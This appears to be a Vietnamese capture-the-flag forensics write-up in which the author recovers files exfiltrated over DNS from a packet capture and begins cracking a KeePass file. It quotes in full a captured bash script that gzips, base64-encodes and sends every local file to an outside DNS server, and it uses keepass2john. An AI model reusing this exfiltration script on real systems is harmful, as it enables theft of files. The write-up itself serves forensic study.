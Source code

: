 ***NetLab2: Protected Vault***

![image](https://github.com/user-attachments/assets/e04bf9e3-3b83-41ba-8b4a-e58bca68697d)

Nhìn trong file khi dung Export Oject ta được ```update.sh``` như sau:

```python
for f in $(ls .); 
do s=4;b=50;c=0; 
for r in $(for i in $(gzip -c $f| base64 -w0 | sed "s/.\{$b\}/&\n/g");
do if [[ "$c" -lt "$s"  ]]; then echo -ne "$i-.";
 c=$(($c+1)); 
 else echo -ne "\n$i-."; 
 c=1;
  fi; 
  done ); 
 do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short; 
 done ; 
 done
```

dịch đoạn code sau ta có vài điểm lưu ý:

```python
 else echo -ne "\n$i-.";
```
Đây là thay thế xuống dòng bằng ```i-```

```python
 do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short;
```

Thay thế ```+``` bằng ```}```, ```/``` bằng ```{```.
Lưu ý 2 điểm này nó sẽ quan trọng trong bài toán sau.
>
Filter dns thấy được 1 luồn file như base64, chúng ta sẽ tách ra hết để decode xem thử.

```python
tshark -nr netlab2.pcap -Y "dns" -T fields -e dns.qry.name > dns.txt
```

Có vẻ này là file đã decode từ đoạn code kia và vì tác giả bài wu đã thử base64 rất nhiều lần :))). Nên giờ sẽ sửa lại như 2 điều ở trên đã nói bằng đoạn python sau.

```python
# Đọc nội dung từ tệp input
with open('dns.txt', 'r', encoding='utf-8') as file:
    content = file.readlines()

# Xử lý nội dung
processed_lines = []
for line in content:
    # Giải mã chuỗi hex
    try:
        decoded_line = bytes.fromhex(line.strip()).decode('utf-8')
        
        # Thay thế '-.' bằng ký tự xuống dòng
        decoded_line = decoded_line.replace('-.', '\n')
        
        # Thay thế '}' bằng '+'
        decoded_line = decoded_line.replace('}', '+')
        
        # Thay thế '{' bằng '/'
        decoded_line = decoded_line.replace('{', '/')
        
        # Nếu dòng không chứa "ubuntu", thêm vào danh sách
        if 'ubuntu' not in decoded_line:
            processed_lines.append(decoded_line)
    except Exception as e:
        print(f"Không thể giải mã dòng: {line.strip()} - Lỗi: {e}")

# Ghi kết quả vào tệp output
with open('t2.txt', 'w', encoding='utf-8') as file:
    file.writelines(processed_lines)

print("Quá trình xử lý đã hoàn tất!")

```

Sau khi tách bằng file code sau được file t3.txt nhưng không đẩu đủ chúng ta cần xóa những dòng dư thừa bằng code python sau.

```python
# Các chuỗi cần xóa
strings_to_remove = [
    "7bgTtW3Fp59pgy", "2PmGj7XTSNwg5", "2NHJWYG1EYAkZ",
    "2x9kyYFcUyDeC2c65", "4xUi2j75eJtNc1", "2tuJoHGout6YhgSX3",
    "9CUmw2dKFRrmvfhiEM"
]

# Đọc nội dung từ tệp input
with open('t2.txt', 'r', encoding='utf-8') as file:
    lines = file.readlines()

# Lọc các dòng không chứa các chuỗi cần xóa
filtered_lines = [
    line for line in lines if not any(substring in line for substring in strings_to_remove)
]

# Ghi kết quả vào tệp output
with open('gob', 'w', encoding='utf-8') as file:
    file.writelines(filtered_lines)

print("Quá trình xử lý đã hoàn tất!")
```

Sau đó chúng ta decode base64 treeb cyberchef đem đi binwalk.

sau z chúng ta binwalk được file nén sau được con đường hy vọng.

```python
╭─   nart   ~/Solve                                                                          ✔  03:10:54 AM  ─╮
╰─❯ binwalk -e pls.zip                                                                                               ─╯

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             gzip compressed data, has original file name: "blueteam.bmp", from Unix, last modified: 2022-04-08 06:35:19
27707         0x6C3B          gzip compressed data, has original file name: "discord.png", from Unix, last modified: 2022-09-25 06:48:33
27734         0x6C56          PNG image, 256 x 256, 8-bit colormap, non-interlaced
29086         0x719E          gzip compressed data, has original file name: "Flag.kdbx", from Unix, last modified: 2022-10-24 06:24:10
31373         0x7A8D          gzip compressed data, has original file name: "gaixinh.jpg", from Unix, last modified: 2022-07-19 18:20:33
40164         0x9CE4          gzip compressed data, has original file name: "kcsc.png", from Unix, last modified: 2022-09-25 06:48:33
53705         0xD1C9          gzip compressed data, has original file name: "meme.jpg", from Unix, last modified: 2022-09-25 06:48:33
69258         0x10E8A         gzip compressed data, has original file name: "update.sh", from Unix, last modified: 2022-10-24 06:59:42
```
thấy được đích r

![image](https://github.com/user-attachments/assets/0d331f03-b9cd-467e-a04c-1df059a2332f)




Sau khi mò thì thấy file Flag.kdbx hợp lý nhất nên sẽ tấn công nó.

Có vẻ như file ```.kdbx``` là file nén đặc biệt nên cần tải công cụ đặc biệt để mở nó.

![image](https://github.com/user-attachments/assets/d1a72f03-8115-4ce9-a217-6e85f72bfb49)

Không chỉ là đặc biệt mà còn cần key.

```python
 python3 keepass2john.py Flag.kdbx > pass
```




